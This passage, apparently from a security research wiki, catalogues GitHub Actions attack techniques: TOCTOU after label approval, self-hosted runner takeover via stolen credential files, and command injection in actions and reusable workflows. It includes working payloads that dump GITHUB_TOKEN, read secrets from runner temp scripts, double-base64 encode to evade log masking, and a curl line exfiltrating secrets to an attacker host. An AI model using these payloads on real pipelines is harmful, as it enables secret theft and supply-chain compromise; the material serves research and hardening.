As can be seen, the workflow is triggered when the `approved` label is set on a pull request. In other words, only a maintainer with write permissions can manually trigger this workflow. However, the workflow is still vulnerable, because it uses `github.event.pull_request.head.ref` to check out the repository content. Consider the difference between `head.ref` and `head.sha`. `head.ref` points to a branch while `head.sha` points to a commit. This means that if `head.sha` is used to check out a repository, the content will be fetched from the commit that was used to trigger the workflow. In the case of labeling a pull request, it will be the HEAD commit that was reviewed by a maintainer before the label was set. However, if `head.ref` is used, a repository is checked out from the base branch. As a result, an attacker can inject a malicious payload right after the manual approval (TOCTOU attack). The attack flow may look like this:

1. An attacker forks a target repository.
1. An attacker makes valid changes and opens a pull request.
1. An attacker waits for the label to be set.
1. A maintainer sets the `approved` label that triggers the vulnerable workflow.
1. An attacker pushes a malicious payload to the fork.
1. The workflow checks out the malicious payload and executes them.

## Misuse of the pull_request_target event in non-default branches

The `pull_request_target` event can be used to trigger workflows in non-default branches if there is no restriction based on `branches` and `branches-ignore` filters.

```yaml
on: 
  pull_request_target:
    branches:
      main
      release*
      v1.*.*
# ...
```

GitHub uses the workflow from a non-default branch when creating a pull request to that branch. Therefore, if there is a vulnerable workflow in a non-default branch that can be triggered by the `pull_request_target` event, an attacker can open a pull request to that branch and exploit a vulnerability.

This is a common pitfall when fixing vulnerabilities, developers can only fix a vulnerability in the default branch and leave the vulnerable version in non-default branches.

# Misuse of the workflow_run event

[workflow_run](https://docs.github.com/en/actions/learn-github-actions/events-that-trigger-workflows#workflow_run) was introduced to enable scenarios that require building the untrusted code and also need write permissions to update a pull request with e.g. code coverage results or other test results. To do this in a secure manner, the untrusted code is handled via the [pull_request](https://docs.github.com/en/actions/learn-github-actions/events-that-trigger-workflows#pull_request) trigger so that it is isolated in an unprivileged environment. The workflow processing a pull request stores any results like code coverage or failed/passed tests in artifacts and exits. The following workflow then starts on `workflow_run` where it is granted write permission to the target repository and access to repository secrets so that it can download the artifacts and make any necessary modifications to the repository or interact with third-party services that require repository secrets (e.g. API tokens).

Nevertheless, there are still ways of transferring data controlled by a user from untrusted pull requests to a privileged `workflow_run` workflow context:

1. The `github.event.workflow_run` context. Please, check out [Contexts misusing](#contexts-misusing) and [Misuse of the events related to incoming pull requests](#misuse-of-the-events-related-to-incoming-pull-requests) for more details.
1. Artifacts. Please, check out [Artifact poisoning](#artifact-poisoning) for more details.

Even if a `workflow_run` workflow does not properly use context variables or artifacts, it may still be unexploitable because the `pull_request` event requires approval from maintainers for pull requests from forks. By default, `pull_request` workflows [require approval only for first-time contributors](https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/enabling-features-for-your-repository/managing-github-actions-settings-for-a-repository#controlling-changes-from-forks-to-workflows-in-public-repositories). So, if a repository does not require approval for all outside collaborators (default behaviour), you can make changes to the target repository to become a contributor. After that, you will be able to fully control a `pull_request` workflow for exploitation.

References:
- [GitHub Security Lab: Keeping your GitHub Actions and workflows secure Part 1: Preventing pwn requests](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/)

# Misuse of self-hosted runners

Self-hosted runners can be launched as an [ephemeral](https://docs.github.com/en/actions/hosting-your-own-runners/autoscaling-with-self-hosted-runners#using-ephemeral-runners-for-autoscaling) using the [--ephemeral](https://docs.github.com/en/actions/hosting-your-own-runners/autoscaling-with-self-hosted-runners#using-ephemeral-runners-for-autoscaling) option. [ephemeral](https://docs.github.com/en/actions/hosting-your-own-runners/autoscaling-with-self-hosted-runners#using-ephemeral-runners-for-autoscaling) option configures a self-hosted runner to only take one job and then let the service un-configure the runner after the job finishes. This is implemented by sending the `ephemeral` value within a request during runner registration:

```http
POST /l8zOmabebUmdmqSaVGVjnhvkK9o6XCANRwPqdM3hfsO92dqZdj/_apis/distributedtask/pools/1/agents HTTP/2
Host: pipelines.actions.githubusercontent.com
User-Agent: VSServices/2.290.1.0
Authorization: Bearer <TOKEN>
Content-Type: application/json; charset=utf-8; api-version=6.0-preview.2

{
  "labels": [
    ...
  ],
  "maxParallelism": 1,
  "createdOn": "0001-01-01T00:00:00",
  "authorization": {
    ...
  },
  "id": 0,
  "name": "Dummy-Runner",
  "version": "2.290.1",
  "osDescription": "Darwin 21.4.0",
  "ephemeral": true,
  "disableUpdate": false,
  "status": 0,
  "provisioningState": "Provisioned"
}
```

As a result, an ephemeral runner has the following lifecycle:

1. The runner is registered with the GitHub Actions service.
1. The runner takes one job and performs it.
1. When the runner completes the job, it cleans up the local environment (`.runner`, `.credentials`, `.credentials_rsaparams` files).
1. The GitHub Actions service automatically de-registers the runner.

Therefore, if an attacker gains access to an ephemeral self-hosted runner, they will not be able to affect other jobs.

However, self-hosted runners are not launched as ephemeral by default and there is no guarantee around running in an ephemeral clean virtual environment. So, runners can be persistently compromised by untrusted code in a workflow. An attacker can abuse a workflow to access the following files that are stored in a root folder of a runner host:

- `.runner` that contains general info about a runner, such as an id, name, pool id, etc.
- `.credentials` that contains authentication details such as the scheme used and authorization URL.
- `.credentials_rsaparams` that contains the RSA parameters that were generated during the registration and are used to sign JWT tokens.

These files can be used to takeover a self-hosted runner with the next steps:

1. Fetch `.runner`, `.credentials`, `.credentials_rsaparams` files with all the necessary data written during the runner registration.
1. Get an access token using the following request:

    ```http
    POST /_apis/oauth2/token/<UUID> HTTP/2
    Host: vstoken.actions.githubusercontent.com
    User-Agent: GitHubActionsRunner
    Content-Type: application/x-www-form-urlencoded

    grant_type=client_credentials&client_assertion_type=urn%3Aietf%3Aparams%3Aoauth%3Aclient-assertion-type%3Ajwt-bearer&client_assertion=<BEARER_TOKEN>
    ```

    Where:
    - `UUID` can be found in the `.credentials` file.
    - `BEARER_TOKEN` [is generated](https://github.com/actions/runner/blob/a7aadf561531e581f92663e88d33e1d488cbcd7a/src/Sdk/WebApi/WebApi/OAuth/VssOAuthJwtBearerAssertion.cs#L120) using the parameters from `.credentials` and `.credentials_rsaparams` files.

1. Remove a current session:

    ```http
    DELETE /<RANDOM_PREFIX>/_apis/distributedtask/pools/1/sessions/<SESSION_ID> HTTP/2
    Host: pipelines.actions.githubusercontent.com
    User-Agent: VSServices/2.290.1.0
    Authorization: Bearer <BEARER_TOKEN>
    ```

    Where:
    - `RANDOM_PREFIX` can be found in the `.runner` file.
    - `SESSION_ID` is a session ID that can be found in the `_diag/Runner_<DATE>-utc.log` file with the runner logs.
    - `BEARER_TOKEN` is a bearer token from the response in the previous step.

1. Copy the `.runner`, `.credentials`, `.credentials_rsaparams` files to a root folder of a malicious runner.
1. Run a malicious runner.

The takeover has the greatest impact when a self-hosted runner is defined at the organization or enterprise level because GitHub can schedule workflows from multiple repositories onto the same runner. It allows an attacker to gain access to the jobs which will use the malicious runner.

References:
- [GitHub Docs: Hosting your own runners](https://docs.github.com/en/actions/hosting-your-own-runners)
- [actions/runner docs: Runner Authentication and Authorization](https://github.com/actions/runner/blob/main/docs/design/auth.md)
- [GitHub Docs: Security hardening - Hardening for self-hosted runners](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#hardening-for-self-hosted-runners)
- [Writeup: Zuckerpunch - Abusing Self Hosted Github Runners at Facebook](https://marcyoung.us/post/zuckerpunch/)
- [Writeup: RyotaK's Blog - Stealing GitHub staff's access token via GitHub Actions](https://blog.ryotak.net/post/github-actions-staff-access-token-en/)

## Using the pull_request event with self-hosted runners

GitHub does not provide a mechanism to prevent the `pull_request` event from being triggered from forks. The only thing available is to [require approval for all outside collaborators](https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/enabling-features-for-your-repository/managing-github-actions-settings-for-a-repository#controlling-changes-from-forks-to-workflows-in-public-repositories). However, if approval is only required for the first contribution, you can make some valid changes and then add a malicious workflow that uses `pull_request` for running on a self-hosted runner.

References:
- [GitHub Docs: Managing GitHub Actions settings for a repository](https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/enabling-features-for-your-repository/managing-github-actions-settings-for-a-repository)

## Detection of the use of self-hosted runners

You can find using of self-hosted runners by the following [runs-on](https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#jobsjob_idruns-on) labels (remember about [a build matrix](https://docs.github.com/en/actions/using-jobs/using-a-build-matrix-for-your-jobs) as well):
- `self-hosted` default label applied to all self-hosted runners.
- `linux`, `windows`, or `macOS` applied depending on an operating system.
- `x64`, `ARM`, or `ARM64` applied depending on hardware architecture.
- Custom labels, which are manually assigned to self-hosted runners (there is a [list](https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#choosing-github-hosted-runners) with GitHub-hosted runner labels which can't be custom ones).

# Using vulnerable actions

An [action](https://docs.github.com/en/actions/learn-github-actions/understanding-github-actions) is a custom application for the GitHub Actions platform that performs a complex but frequently repeated task. Like any code [actions can be vulnerable](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions) - it can be a vulnerability in the code of an action or a used package or dependency. Since individual jobs in a workflow can interact with other jobs, if one of the jobs uses a vulnerable action, it can compromise the entire workflow. For example, a job querying the environment variables used by a later job, writing files to a shared directory that latter job processes, or even more directly by interacting with the Docker socket and inspecting other running containers and executing commands in them.

There are three types of actions:
- [Composite action](#composite-action)
- [JavaScript action](#javascript-action)
- [Docker container action](#docker-action)

## Composite action

[Composite action](https://docs.github.com/en/actions/creating-actions/creating-a-composite-action) is used to execute the defined steps that can run shell code or use other actions. Since a composite action can run scripts written in different languages (bash, python, go, etc.), they can also be vulnerable to common weaknesses like code and command injection, path traversal, etc.

### Command injection

Composite actions allow defining [inputs](https://docs.github.com/en/actions/creating-actions/metadata-syntax-for-github-actions#inputs) that can be used during execution:

```yml
# fake-actions/composite-action
name: 'Hello World'
description: 'Greet someone'

inputs:
  who-to-greet:
    description: 'Who to greet'
    required: true

runs:
  using: "composite"
  steps:
    - run: echo Hello ${{ inputs.who-to-greet }}.
      shell: bash
```

Handling inputs is performed using variable interpolation `${{ ... }}`. Therefore, if the inputs are embedded directly into the [run:](https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#jobsjob_idstepsrun) block, an attacker can inject arbitrary commands:

```yml
on: workflow_dispatch

jobs:
  test:
    runs-on: ubuntu-latest
    name: A job to say hello
    steps:
      - uses: actions/checkout@v2
      - uses: fake-actions/composite-action@v1
        with:
          # this input will be injected to the run: block in fake-actions/composite-action
          # it will look in the following way:
          #
          # runs:
          #   using: "composite"
          #   steps:
          #     - run: echo Hello World!; echo hop.
          #       shell: bash
          who-to-greet: 'World!; echo hop'
```

As a result, it is possible at least extract secrets from environment variables and generated shell scripts. For instance, in the snippet below an attacker can open an issue with title `";{cat,/home/runner/work/_temp/$({xxd,-r,-p}<<<2a)}|{base64,-w0};#` to dump `GITHUB_TOKEN`:

```yml
# Vulnerable third-party action:
# fake-actions/update-issues
inputs:
  issue_number:
    description: 'Issue number'
    required: true
  issue_title:
    description: 'Issue title'
    required: true
  github_token:
    description: 'GitHub API token'
    required: false
    default: ${{ github.token }}

runs:
  using: composite
  steps:
  - name: Run
    shell: bash
    # inject inputs directly to the run: block
    # we can use the injection to dump the generated shell script
    # and access the github_token
    run: |
      pip3 install -r requirements.txt
      ./check.py --token "${{ inputs.github_token }}" \
        --issue-number "${{ inputs.issue_number }}" \
        --issue-title "${{ inputs.issue_title }}"
```

```yml
# Workflow that uses fake-actions/update-issues
on:
  issues:
    types: [open, edited]

jobs:
  test:
    runs-on: ubuntu-latest
    name: Check issue title
    steps:
      - uses: actions/checkout@v2
      - uses: fake-actions/update-issues@v1
        with:
          issue_number: ${{ github.event.issue.number }}
          # uses issue title as input
          # issue title is controlled by a user
          issue_title: ${{ github.event.issue.title }}
```

The same applies to contexts that can be used for command injection, check out [Contexts misusing](#contexts-misusing).

### Disclosure of sensitive data

New sensitive data may appear during the execution of composite actions, such as temporary tokens, retrieved data, etc. GitHub Actions allow developers to mask this data in logs using [add-mask](https://docs.github.com/en/actions/using-workflows/workflow-commands-for-github-actions#masking-a-value-in-log) workflow command. So, if the `add-mask` is not used or [workflow commands have been stopped](https://docs.github.com/en/actions/using-workflows/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands) sensitive data can leak to the run logs:

```yaml
name: 'API requester'
description: 'Send requests to API with curl'
inputs:
  token:
    description: 'Token'
    required: true

runs:
  using: "composite"
  steps:
    - run: |
        BASIC_AUTH=$(echo -n "token:${{ inputs.TOKEN }}" | base64)
        curl -v -H "Authorization: Basic $BASIC_AUTH" https://api.website.com
      shell: bash
```

## JavaScript action

[JavaScript action](https://docs.github.com/en/actions/creating-actions/creating-a-javascript-action) is used to execute a Node.js code. Since a JavaScript action is a Node.js application, it can be vulnerable to common Node.js weaknesses such as code and command injection, prototype pollution, etc.


[actions/github-script](https://github.com/actions/github-script) allows executing of JavaScript code as well and all vulnerabilities described here apply to the `actions/github-script` action


### Command injection

GitHub Actions toolkit provides the [@actions/exec](https://github.com/actions/toolkit/tree/main/packages/exec) package to execute shell commands:

```javascript
const exec = require('@actions/exec');
await exec.exec('node index.js');
```

[github-script](https://github.com/actions/github-script) provides the [exec](https://github.com/actions/github-script#actionsgithub-script) object to access the exec package:

```yaml
- uses: actions/github-script@v6
  with:
    script: |
      await exec.exec('node index.js');
```

If user-controlled data ([inputs](https://docs.github.com/en/actions/creating-actions/metadata-syntax-for-github-actions#inputs), GitHub context, etc.) is passed directly to the `exec` it can lead to command or argument injection.

### Disclosure of sensitive data

New sensitive data may appear during the JavaScript action execution, such as temporary tokens, retrieved data, etc. For such sensitive data to be masked in the logs, the [@actions/core](https://github.com/actions/toolkit/tree/main/packages/core) provides the [core.setSecret](https://github.com/actions/toolkit/tree/main/packages/core#setting-a-secret) method. `code.setSecret` registers the data in the runner to ensure it is masked in the logs. Therefore, if the `code.setSecret` is not used sensitive data can leak to workflow run logs.

For instance, the sample below will leak `api_token` to logs if the [debug mode](https://docs.github.com/en/actions/monitoring-and-troubleshooting-workflows/enabling-debug-logging) is enabled:

```javascript
const core = require("@actions/core");
let api_token = client.get_token();
// the token will not be masked in the logs
core.setOutput("api_token", token);
```

The workflow log discloses the token in plaintext:

```
// workflow run log
##[debug]Set output api_token = cG1jTXaVaAT2K1Qur6G2dryZ6WfuCZcuGck3VU
```

### Github context

JavaScript actions can access the [GitHub context](https://docs.github.com/en/actions/learn-github-actions/contexts#github-context) via [@actions/github](https://github.com/actions/toolkit/tree/main/packages/github):

```javascript
const github = require("@actions/github");
const context = github.context;
console.log(context.repo.repo);
```

[github-script](https://github.com/actions/github-script) provides the [context](https://github.com/actions/github-script#actionsgithub-script) object to access the GitHub context:

```yaml
- uses: actions/github-script@v6
  with:
    script: |
      console.log(context.repo.repo)
```

The next variables in the GitHub context are controlled by a user:

- `context.payload.pull_request.title`
- `context.payload.pull_request.body`
- `context.payload.pull_request.head.ref`
- `context.payload.pull_request.head.label`
- `context.payload.pull_request.head.repo.default_branch`
- `context.payload.pull_request.head.repo.description`
- `context.payload.pull_request.head.repo.homepage`
- `context.payload.issue.body`
- `context.payload.issue.title`
- `context.payload.comment.body`
- `context.payload.discussion.body`
- `context.payload.discussion.title`

These variables can be used as a source to pass arbitrary data to vulnerable code.

### Octokit GraphQL API injection

[@actions/github](https://github.com/actions/toolkit/tree/main/packages/github) allows making GraphQL requests (check https://github.com/octokit/graphql.js for the API):

```javascript
const github = require('@actions/github');
const octokit = github.getOctokit(myToken);
const result = await octokit.graphql(query, variables);
```

[github-script](https://github.com/actions/github-script) provides the [github](https://github.com/actions/github-script#actionsgithub-script) object to access the `octokit` client:

```yaml
- uses: actions/github-script@v6
  with:
    script: |
      const result = await github.graphql(query, variables);
```

If user-controlled data ([inputs](https://docs.github.com/en/actions/creating-actions/metadata-syntax-for-github-actions#inputs), GitHub context, etc.) is passed directly to the `query` it can lead to an injection into GraphQL request.


There is [octokit/graphql-action](https://github.com/octokit/graphql-action) which can be vulnerable to the injection as well, check out [Contexts misusing](#contexts-misusing)


### Octokit REST API injection

[@actions/github](https://github.com/actions/toolkit/tree/main/packages/github) allows making requests to REST API (check https://octokit.github.io/rest.js for the API):

```javascript
const github = require('@actions/github');
const octokit = github.getOctokit(myToken);
const { data: pullRequest } = await octokit.rest.pulls.get({
  owner: 'octokit',
  repo: 'rest.js',
  pull_number: 123,
  mediaType: {
    format: 'diff'
  }
});
```

[github-script](https://github.com/actions/github-script) provides the [github](https://github.com/actions/github-script#actionsgithub-script) object to access the `octokit` client:

```yaml
- uses: actions/github-script@v6
  with:
    script: |
      const { data: pullRequest } = await github.rest.pulls.get({
        owner: 'octokit',
        repo: 'rest.js',
        pull_number: 123,
        mediaType: {
          format: 'diff'
        }
      });
```

If user-controlled data ([inputs](https://docs.github.com/en/actions/creating-actions/metadata-syntax-for-github-actions#inputs), GitHub context, etc.) is passed directly to the next methods it can lead to injection into requests to REST API:

- [octokit.request()](https://octokit.github.io/rest.js/v18#custom-requests)
- [octokit.paginate()](https://octokit.github.io/rest.js/v18#pagination)
- [octokit.registerEndpoints()](https://octokit.github.io/rest.js/v18#custom-endpoint-methods)


There is [octokit/request-action](https://github.com/octokit/request-action) which can be vulnerable to the injection as well, check out [Contexts misusing](#contexts-misusing)


## Docker action

[Docker container action](https://docs.github.com/en/actions/creating-actions/creating-a-docker-container-action) is used to run a Docker container and execute a code in Docker. Since a Docker container action runs scripts written in different languages (bash, python, go, etc.), they can also be vulnerable to common weaknesses like code and command injection, path traversal, etc.

### Disclosure of sensitive data

New sensitive data may appear during the execution of Docker container actions, such as temporary tokens, retrieved data, etc. GitHub Actions allow developers to mask this data in logs using [add-mask](https://docs.github.com/en/actions/using-workflows/workflow-commands-for-github-actions#masking-a-value-in-log) workflow command. So, if the `add-mask` is not used or [workflow commands have been stopped](https://docs.github.com/en/actions/using-workflows/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands) sensitive data can leak to the run logs:

```yaml
name: 'API requester'
description: 'Send requests to API with curl'
inputs:
  token:
    description: 'Token'
    required: true

runs:
  using: "docker"
  image: "Dockerfile"
```

```bash
# entrypoint.sh
#!/bin/sh

TOKEN=$1
BASIC_AUTH=$(echo -n "token:${TOKEN}" | base64)
curl -v -H "AUTH: ${BASIC_AUTH}" https://api.website.com
```

### Using a malicious docker image

In addition to a local `Dockerfile` in a repository, third-party Docker images from a registry can be used. Therefore, these Docker images may be vulnerable, causing the container to be compromised.


The same applies for the [job](https://docs.github.com/en/actions/learn-github-actions/workflow-syntax-for-github-actions#jobsjob_idcontainer) and [service](https://docs.github.com/en/actions/learn-github-actions/workflow-syntax-for-github-actions#jobsjob_idservices) containers


References:
- [GitHub Docs: About service containers](https://docs.github.com/en/actions/using-containerized-services/about-service-containers)

### Sensitive mounts

Github runner passes part of the environment variables and mounts volumes when running a Docker container:

```bash
/usr/bin/docker run \
    --name b31b05063130cf75cab0a728bd52f90782d_ea3c3b \
    --label 294b31 \
    --workdir /github/workspace \
    --rm \
    -e HOME -e GITHUB_JOB -e GITHUB_REF -e GITHUB_SHA -e GITHUB_REPOSITORY -e GITHUB_REPOSITORY_OWNER -e GITHUB_RUN_ID -e GITHUB_RUN_NUMBER -e GITHUB_RETENTION_DAYS -e GITHUB_RUN_ATTEMPT -e GITHUB_ACTOR -e GITHUB_WORKFLOW -e GITHUB_HEAD_REF -e GITHUB_BASE_REF -e GITHUB_EVENT_NAME -e GITHUB_SERVER_URL -e GITHUB_API_URL -e GITHUB_GRAPHQL_URL -e GITHUB_REF_NAME -e GITHUB_REF_PROTECTED -e GITHUB_REF_TYPE -e GITHUB_WORKSPACE -e GITHUB_ACTION -e GITHUB_EVENT_PATH -e GITHUB_ACTION_REPOSITORY -e GITHUB_ACTION_REF -e GITHUB_PATH -e GITHUB_ENV -e GITHUB_STEP_SUMMARY -e RUNNER_DEBUG -e RUNNER_OS -e RUNNER_ARCH -e RUNNER_NAME -e RUNNER_TOOL_CACHE -e RUNNER_TEMP -e RUNNER_WORKSPACE -e ACTIONS_RUNTIME_URL -e ACTIONS_RUNTIME_TOKEN -e ACTIONS_CACHE_URL -e GITHUB_ACTIONS=true -e CI=true \
    -v "/var/run/docker.sock":"/var/run/docker.sock" -v "/home/runner/work/_temp/_github_home":"/github/home" -v "/home/runner/work/_temp/_github_workflow":"/github/workflow" -v "/home/runner/work/_temp/_runner_file_commands":"/github/file_commands" -v "/home/runner/work/actions/actions":"/github/workspace" \
    294b31:b05063130cf75cab0a728bd52f90782d
```

Here it is worth paying attention to at least the following things:

1. Exposed Docker socket at `/var/run/docker.sock`. It allows an attacker to escape from the container. Please, check out [Container: Escaping - Exposed Docker Socket](/Container/Escaping/exposed-docker-socket.md)
1. `/github/workspace` is a folder with repository content. For example, an attacker can grab a repository token from the `/github/workspace/.git/config` file, check out the "[Exfiltrating data from a runner](#exfiltrating-data-from-a-runner)" section.

## Unclaimed actions

Third-party actions may be available for claiming because the namespace (username or organization name) has been changed or removed. If the namespace has been changed GitHub will redirect the old namespace to the new one and thus workflows that use the actions with the old namespace will continue to execute successfully. In this case, an attacker can try to claim the old namespace by registering a user or creating an organization. If it is possible, an attacker can create a malicious action which will later be executed by workflows that use actions with the claimed namespace.

References:
- [Report: Github base action takeover which is used in `github.com/Shopify/unity-buy-sdk`](https://hackerone.com/reports/1439355)

# Reusing vulnerable workflows

GitHub Actions allows making workflows [reusable](https://docs.github.com/en/actions/using-workflows/reusing-workflows) using the [workflow_call](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#workflow_call) event. It allows calling a reusable workflow from another workflow by anyone who has access to this workflow:

```yaml
jobs:
  call-workflow-passing-data:
    # third-party reusable workflow
    uses: octo-org/example-repo/.github/workflows/reusable-workflow.yml@main
    # or you can use a local reusable workflow
    # uses: .github/workflows/reusable-workflow.yml
    with:
      username: mona
    secrets:
      envPAT: ${{ secrets.envPAT }}
```

```yaml
# reusable workflow
# octo-org/example-repo/.github/workflows/reusable-workflow.yml
on:
  workflow_call:
    inputs:
      username:
        required: true
        type: string
    secrets:
      envPAT:
        required: true

jobs:
  main:
    runs-on: ubuntu-latest
    steps:
      - run: |
          curl -H "Authorization: ${{ inputs.envPAT }}" "https://api.website.com/api/v1/${{ inputs.username }}"
```

Reusable workflows are very similar to third-party actions. They are run in the context of a called workflow and allow defining [inputs](https://docs.github.com/en/actions/creating-actions/metadata-syntax-for-github-actions#inputs). Therefore, reusable workflows may misuse user-controlled input or context variables, which could lead to the same vulnerabilities that are described for workflows and third-party actions on this page.

The reusable workflow from the snippet above is vulnerable to command injection. If the `username` input variable will be controlled by an attacker, they can leak `envPAT` using the following payload as `username`:

```
"; cat /home/runner/work/_temp/$(xxd -r -p <<< 2a) | base64 -w0 | base64 -w0;#
```

Another example is the following workflow which checkouts a code from an incoming PR and runs `npm install` against it:

```yml
on:
  workflow_call:

jobs:
  build:
    name: Build and test
    runs-on: ubuntu-latest
    steps:
        # check out incoming PR code
        - uses: actions/checkout@v2
        with:
            ref: refs/pull/${{ github.event.pull_request.number }}/merge
        - uses: actions/setup-node@v1
        # potentially untrusted code is being run during npm install or npm build
        # as the build scripts and referenced packages are controlled by the author of the PR
        - run: |
            npm install
            npm build
```

References:
- [GitHub Docs: Reusing workflows](https://docs.github.com/en/actions/learn-github-actions/reusing-workflows)

# Vulnerable if-conditions

The `if` condition is used in a workflow file to determine whether a step should run. When an `if` conditional is `true`, the step will run. It can be useful from a security perspective as well. For example, the following `if` statement can be used to allow only pull requests from the base repository:

```yml
name: PR workflow

on: pull_request

jobs:
  test-job:
    runs-on: ubuntu-latest
    if: ${{ github.event.pull_request.head.repo.full_name == github.repository }}
    steps:
      - name: Do some work
        run: ...
```

However, these `if` conditions can be vulnerable and lead not to the behavior that is originally expected.

## Incorrect comparison

[Expressions](https://docs.github.com/en/actions/learn-github-actions/expressions) implement the insensitive comparison that can be misused during protection implementation. For example, the following `if` condition will be `true`:

```yaml
jobs:
  test-job:
    if: 'test' == 'TEST'
    steps:
      - name: Do some work
        run: ...
```

GitHub provides the `contains()` function that can be used in an `if` condition incorrectly. For example in the following example, an author has restricted the execution of the step to only bots using `contains()`:

```yaml
jobs:
  test-job:
    if: contains(github.actor, '[bot]')
    steps:
      - name: Do some work
        run: ...
```

However, this condition can be easily met by creating a new bot.

## Labels on PRs

One approach to control the workflow execution is to use labels on pull requests. This is possible because a label on a pull request can only be set by a project member. As a result, it allows running a workflow only after a project member has reviewed a pull request and set an appropriate label:

```yaml
name: Vulnerable workflow

on: pull_request_target

jobs:
  test-job:
    runs-on: ubuntu-latest
    if: (github.event.action == 'labeled' && github.event.label.name == 'approved') || (github.event.action != 'labeled' && contains(github.event.pull_request.labels.*.name, 'approved'))
    steps:
      - name: Do some work
        run: ...
```

If a workflow uses [pull_request](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#pull_request) or [pull_request_target](https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows#pull_request_target) events with the `synchronize` action type, it will be triggered when the head repository is updated. Since new changes to a pull request do not remove labels, the `if` condition can be bypassed in the example above like this:

1. Create a pull request with valid changes.
1. Wait for the label to be set.
1. Update the pull request with malicious code.
1. The updates will trigger the workflow.

## Misusing context variables

Using wrong context variables can cause `if` condition to always be `true` or `false` regardless of the situation. For example, the following `if` condition uses `github.event.pull_request.base.repo.full_name` instead of `github.event.pull_request.head.repo.full_name` variable to ignore pull requests from forks:

```yml
name: Vulnerable workflow

on: pull_request

jobs:
  test-job:
    runs-on: ubuntu-latest
    # check base repo instead of head one
    # this condition is always true
    if: ${{ github.event.pull_request.base.repo.full_name == github.repository }}
    steps:
      - name: Do some work
        run: ...
```

However, this condition will be always `true`. The same behaviour will be achieved if `github.repository` is used for comparing against the repository name:

```yml
name: Vulnerable workflow

on: pull_request

jobs:
  test-job:
    runs-on: ubuntu-latest
    # github.repository contains the full repo name
    # this condition is always true
    if: github.repository == 'namespace/project'
    steps:
      - name: Do some work
        run: ...
```

## Skipping mandatory checks

A workflow can implement various types of checks during running. For example, it can check if an actor is a member of an organization or if they have write permissions for the current repository. This can be done using third-party actions or a custom validation based on the GitHub API. However, not all such actions interrupt execution if a check fails, some of them return a boolean value for subsequent verification. For instance, the following snippet shows a check for the presence of an actor in an org team:

```yaml
- name: Fetch team member list
  uses: tspascoal/get-user-teams-membership@v1
  with: 
    username: ${{ github.actor }}
    organization: <ORG>
    team: <TEAM>
    GITHUB_TOKEN: ${{ secrets.READ_ORG_SECRET_JSVD }}
- name: Is user not a team member?
  if: ${{ steps.checkUserMember.outputs.isTeamMember == 'false' }}
  run: exit 1
```

Nevertheless, the snippet above is vulnerable because there is no the `id:` field for the `Fetch team member list` step. As a result, `${{ steps.checkUserMember.outputs.isTeamMember == 'false' }}` is always `false`. So, the fixed version looks like the following:

```yaml
- name: Fetch team member list
  # id filed was missed in the vulnerable sample
  id: checkUserMember
  uses: tspascoal/get-user-teams-membership@v1
  with: 
    username: ${{ github.actor }}
    organization: <ORG>
    team: <TEAM>
    GITHUB_TOKEN: ${{ secrets.READ_ORG_SECRET_JSVD }}
- name: Is user not a team member?
  if: ${{ steps.checkUserMember.outputs.isTeamMember == 'false' }}
  run: exit 1
```

## Unclaimed or incorrect usernames

If the workflow uses something like this:

```yaml
if: |
  github.actor == 'user1' || github.actor == 'user2' || github.actor == 'user3'
```

Make sure all these users exist as they may have already been deleted or misspelled.

# The potential impact of a compromised runner workflow

Workflows triggered using the `pull_request` event have read-only permissions and have no access to secrets. However, these permissions differ for various event triggers such as `issue_comment`, `issues` or `push`, where you could attempt to steal repository secrets or use the write permission of the job's [GITHUB_TOKEN](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#about-the-github_token-secret).


`GITHUB_TOKEN` is the same token that GitHub Apps use. For information about the API endpoints, GitHub Apps can access with each permission, check out the "[GitHub App Permissions](https://docs.github.com/en/rest/reference/permissions-required-for-github-apps)" page. You can find the permissions for `GITHUB_TOKEN` in a workflow log on the `Set up job` step:




References:
- [GitHub Docs: Environment variables - Default environment variables](https://docs.github.com/en/actions/learn-github-actions/environment-variables#default-environment-variables)
- [GitHub Docs: Security hardening - Potential impact of a compromised runner](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#accessing-secrets)

## Accessing secrets through environment variables

If secrets are passed to an environment variable, you can directly access them in the following ways:

```bash
# you can intentionally sent secrets to the logs with echo command
$ echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};
# or using base64 (you need encode twice to avoid auto-masking)
$ echo "${SOME_SECRET}" | base64 -w0 | base64 -w0
# you can exfiltrate secrets with curl command
$ curl "https://attacker-website.com/?secret=${SOME_SECRET}"
# use printenv to dump environament variables (you need encode twice to avoid auto-masking)
$ printenv | base64 -w0 | base64 -w0 
# same as printenv but via proc fs (you need encode twice to avoid auto-masking)
$ cat /proc/self/environ | base64 -w0 | base64 -w0
```

## Accessing secrets from the run: step

If a secret is used directly in an expression `${{ }}` in the `run:` block, like:
    
```yml
- run: |
    publisher ${{ secrets.PUBLISH_KEY }}
  shell: bash
```

The generated shell script will be stored on the disk in the `/home/runner/work/_temp/` folder. This script contains the secret in plain text because GitHub Runner evaluates the expressions inside of `${{ }}` and substitutes them with the resulting values before running the script in the `run:` block. Therefore, the secret can be accessed with the following command:

```bash
$ cat /home/runner/work/_temp/$(xxd -r -p <<< 2a) | base64 -w0 | base64 -w0
```

Note that this behavior is independent of [shell settings](https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#jobsjob_idstepsshell).

## Accessing secrets through rewriting third-party actions

If you have an arbitrary command execution in front of a third-party action that handles secrets:

```yaml
- run: |
    <COMMAND_INJECTION_HERE>
- uses: fakeaction/publish@v3
  with:
    key: ${{ secrets.PUBLISH_KEY }}
```

